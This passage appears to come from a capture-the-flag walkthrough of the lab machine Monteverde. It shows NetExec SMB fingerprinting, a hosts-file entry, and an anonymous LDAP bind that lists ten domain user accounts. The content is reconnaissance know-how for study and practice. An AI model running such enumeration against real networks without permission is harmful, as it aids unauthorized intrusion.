 ```output
|_  start_date: N/A


```

The NetExec tool confirmed the host Monteverde is running a Windows 10 or Server 2019 Build 17763 operating system, is a member of the MEGABANK.LOCAL domain, and has SMB signing enabled.

```bash
nxc smb 10.129.228.111                                                            
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
```

The hosts file was configured to resolve the hostname MONTEVERDE and the domain MEGABANK.LOCAL to the IP address 10.129.228.111.

```bash
cat  /etc/hosts
10.129.228.111  MONTEVERDE  MEGABANK.LOCAL
```

An anonymous bind to the LDAP service on Monteverde was performed, which successfully enumerated a list of domain users.
```bash
nxc ldap 10.129.228.111  -u '' -p ''  --users 
```

The anonymous LDAP enumeration successfully listed ten domain users. The accounts include Guest, AAD_987d7f2f57d2, mhope, SABatchJobs, svc-ata, svc-bexec, svc-netapp, dgalanos, roleary, and smorgan.

```bash
LDAP        10.129.228.111  389    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
LDAP        10.129.228.111  389    MONTEVERDE       [+] MEGABANK.LOCAL\: 
LDAP        10.129.228.111  389    MONTEVERDE       [*] Enumerated 10 domain users: MEGABANK.LOCAL
LDAP        10.129.228.111  389    MONTEVERDE       -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.129.228.111  389    MONTEVERDE       Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.129.228.111  389    MONTEVERDE       AAD_987d7f2f57d2              2020-01-02 17:53:24 0        Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.                                                                                                                          
LDAP        10.129.228.111  389    MONTEVERDE       mhope                         2020-01-02 18:40:05 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       SABatchJobs                   2020-01-03 07:48:46 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       svc-ata                       2020-01-03 07:58:31 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       svc-bexec                     2020-01-03 07:59:55 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       svc-netapp                    2020-01-03 08:01:42 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       dgalanos                      2020-01-03 08:06:10 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       roleary                       2020-01-03 08:08:05 0                                                                    
LDAP        10.129.228.111  389    MONTEVERDE       smorgan                       2020-01-03 08:09:21 0                                                              
```
